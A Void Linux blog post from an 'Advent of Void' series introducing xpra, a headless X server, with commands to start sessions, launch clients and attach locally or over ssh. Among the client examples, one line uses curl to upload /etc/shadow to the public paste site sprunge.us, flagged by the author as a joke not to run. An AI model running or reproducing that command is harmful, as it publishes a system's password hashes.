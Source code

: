 +++
title="The Advent of Void: Day 12: xpra"
date=2017-12-12
+++

Here's our first tool using a GUI: [xpra(1)](https://man.voidlinux.eu/xpra.1) is
a headless X-Server that allows remotely detaching and attaching its windows 
from multiple platforms including X11, Windows, and Mac.

To use xpra you have to start a new session:

```
# xpra start :14
```

Once xpra has the server running on `:14` you can start clients in the
session:

```
# DISPLAY=:14 xterm &
# DISPLAY=:14 firefox &
# DISPLAY=:14 curl -F sprunge=@/etc/shadow http://sprunge.us &
```

... Actually [don't run the last command](https://twitter.com/Kuwaddo/status/940288213314359296).

To attach the xpra session just use the `attach` command:

```
# xpra attach :14
```

This attaches a local xpra server to the current display. The started X11 should be shown on the screen now.
To detach the session hit `Ctrl`+`C`.

The real power of xpra comes with the remote attaching feature:

```
# xpra attach ssh:remote-server:14
```

This command opens a ssh connections to `remote-server` and attaches
xpra through a secure tunnel. xpra supports multiple encodings, 
including h264, so in contrast to plain X11 over ssh it's incredible fast.

To find out more about xpra, visit the [website](https://xpra.org/).
